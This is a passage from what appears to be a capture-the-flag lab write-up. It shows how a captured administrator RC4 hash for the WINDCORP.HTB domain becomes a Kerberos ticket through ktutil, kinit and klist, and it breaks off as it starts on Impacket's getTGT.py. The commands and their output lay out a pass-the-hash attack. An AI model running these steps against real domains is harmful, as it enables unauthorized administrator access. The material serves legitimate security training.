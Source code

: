 ```
```

### Kerberos Auth

#### Using ktutil / kinit

I can also use the Linux Kerberos tools to get a ticket as well. I’ll start with `ktutil` ([docs](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/ktutil.html)) to `add_entry` and save it as a keytab file:

```

oxdf@hacky$ ktutil
ktutil:  add_entry -p administrator@WINDCORP.HTB -k 1 -key -e rc4-hmac
Key for administrator@WINDCORP.HTB (hex): b3ff8d7532eef396a5347ed33933030f
ktutil:  write_kt administrator.keytab
ktutil:  exit

```

It’s important that the domain be in all caps matching the realm in the `/etc/krb5.conf` file.

Now I’ll run `kinit` ([docs](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.html)) to get a ticket, passing it that file:

```

oxdf@hacky$ kinit -V -k -t administrator.keytab -f administrator@WINDCORP.HTB
Using default cache: /tmp/krb5cc_1000
Using principal: administrator@WINDCORP.HTB
Using keytab: administrator.keytab
Authenticated to Kerberos v5

```

`-k -t [keytab file]` is how that’s passed, and `-f` is to request forwardable tickets.

After that, the ticket is in my local session:

```

oxdf@hacky$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: administrator@WINDCORP.HTB

Valid starting       Expires              Service principal
11/10/2022 22:48:08  11/11/2022 08:48:08  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 11/11/2022 22:48:07

```

#### Using Impacket

One way to get a local ticket using the hash is with `getTGT.py` (from [Impacket](https://github.com/SecureAuthCorp/impacket)). It takes the account and the credentials (password or hash) and talks to the DC to get a ticket that can be used to authenticate, saving that ticket in `administrator.ccache`:
